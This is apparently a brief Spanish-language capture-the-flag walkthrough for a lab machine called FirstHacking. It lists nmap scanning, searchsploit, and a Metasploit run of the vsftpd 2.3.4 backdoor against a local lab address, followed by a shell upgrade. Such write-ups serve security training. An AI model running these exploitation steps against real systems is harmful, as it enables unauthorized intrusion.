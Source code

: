 Maquina: FirstHacking

Autor: El Pinguino de Mario 

Dificultad: Muy Facil

![Screenshot 2024-11-09 084750](https://github.com/user-attachments/assets/09b2bd7c-25c8-4e51-88fd-b57217eebfd5)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-09 084849](https://github.com/user-attachments/assets/ac694df8-7aa3-402d-a438-b9bbf673e6dc)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

![Screenshot 2024-11-09 084931](https://github.com/user-attachments/assets/3564ed2c-7a62-47c1-b5aa-b1e21fa9ce4c)

searchsploit vsftpd 2.3.4  
msfconsole -q  
search vsftpd 2.3.4 

![Screenshot 2024-11-09 084947](https://github.com/user-attachments/assets/6ba0eba3-1800-4adc-b48e-6efb89b776d4)

use 0
show options
set rhost 172.17.0.2
run

![Screenshot 2024-11-09 085434](https://github.com/user-attachments/assets/003b9874-a97f-4a19-adda-c5484db3b067)

script /dev/null -c bash
whoami

![Screenshot 2024-11-09 085503](https://github.com/user-attachments/assets/6b16bf42-4f13-4c37-8ae1-fb9cf2638232)
